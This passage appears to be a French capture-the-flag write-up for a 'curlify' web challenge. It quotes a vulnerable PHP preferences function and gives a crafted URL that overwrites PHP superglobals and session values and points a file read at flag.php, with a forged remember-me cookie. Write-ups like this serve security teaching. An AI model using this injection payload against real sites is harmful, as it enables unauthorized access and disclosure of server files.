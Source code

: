 ## Sélectionner ses préférences

L'objectif est de mettre ses préférences de manière à ce que `$_SESSION["user_prefs"]` contienne le flag.

C'est la ligne suivante qui effectue cela :

```php
$_SESSION["user_prefs"] = get_prefs($userinfo["username"], $_SERVER["HTTP_ACCEPT_LANGUAGE"], $DEFAULT_LANGUAGE);
```

La fonction `get_prefs` étant définie dans `prefs.php` :

```php
function get_prefs($user, $prefs, $lang) {
    switch ($prefs) {
        case "fr-FR":
            include(__DIR__."/user_prefs/fr-FR.php");
            break;
        case "en-EN":
            include(__DIR__."/user_prefs/en-EN.php");
            break;
        case "us-US":
            include(__DIR__."/user_prefs/us-US.php");
            break;
        default:
            return file_get_contents(__DIR__."/user_prefs/$lang");
    }
}
```

Ainsi, si on met `flag.php` comme valeur pour `$DEFAULT_LANGUAGE` et n'importe quelle valeur différente de `fr-FR`, `en-EN` et `us-US` pour `$_SERVER["HTTP_ACCEPT_LANGUAGE"]`, on obtient le flag dans `$_SESSION["user_prefs"]`.

Notre URL de connexion devient alors :

```
http://localhost/admin_panel/?_POST[username]=admin&_COOKIE[remember_me]=admin7a988e11680f9e151f6f46808690d5ca&_SERVER[HTTP_ACCEPT_LANGUAGE]=HH&DEFAULT_LANGUAGE=flag.php&_SESSION[userid]=admin
```

On a aussi rajouté `_SESSION[userid]` pour que le contenu s'affiche dans les tickets.

## Tickets

Finalement, on peut créer les tickets à partir de `https://curlify.chall.malicecyber.com/admin_panel/task.php` avec comme contenu n'importe quelle valeur.
